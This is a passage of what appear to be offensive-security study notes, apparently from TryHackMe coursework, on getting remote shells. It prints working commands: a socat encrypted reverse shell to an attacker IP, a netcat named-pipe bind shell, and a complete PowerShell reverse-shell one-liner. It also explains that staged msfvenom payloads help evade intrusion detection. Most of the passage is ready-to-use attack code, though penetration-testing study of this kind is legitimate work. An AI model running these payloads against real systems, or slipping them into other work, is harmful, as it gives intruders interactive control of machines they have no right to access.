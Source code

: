 ```bash
socat \
OPENSSL:$ATTACKER_IP:$LISTENER_PORT,verify=0 \
EXEC:"/bin/bash -li",pty,stderr,sigint,setsid,sane
```

### Common Shell Payloads

Pre-compiled, statically-linked Windows binaries for red teaming can be found in /usr/share/windows-binaries.

Because the `-e` switch is considered insecure (for the very reasons we’re fond of it), many UNIX-like operating systems ship a version of netcat without it. Working around this leads to the common named pipe pattern:

```bash
mkfifo /tmp/p
nc -lvnp $LISTENER_PORT < /tmp/p | /bin/sh >/tmp/p 2>&1
rm /tmp/p
```

(This example creates a bind shell, but we’ve also seen examples that create reverse shells. Note that it’s also possible to reverse the /bin/sh and nc portions of things; what important is that the named pipe lets us loop I/O between the two applications.)

You can do the same thing with PowerShell to create a reverse shell, albeit with a much more cryptic command.

```powershell
powershell -c "$client = New-Object System.Net.Sockets.TCPClient('<IP>',<PORT>);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```

Note that `<IP>` and `<PORT>` need to be appropriately replaced in the above code.

* [2021-10-02 - TryHackMe: Complete Beginner](2021-10-02-tryhackme-complete-beginner.md)
* [PayloadsAllTheThings Reverse Shell Cheat Sheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

### msfvenom

Definitions:

* STAGED payloads use an initial stage whose job it is to establish a reverse connection and then load the actual shell code (the second stage) into memory. This helps minimize initial payload size and evade IDS, but tends to require more specialized code. Metasploit multi/handler + Meterpreter use this approach.
* STAGELESS payloads are one-stop shops — basically, everything we’ve been working with outside of Metasploit falls in this bucket. Easier to work with and understand, but bulkier and more likely to trigger alarms.

As memory scanning has become more common, staged payloads have lost some of their alure.

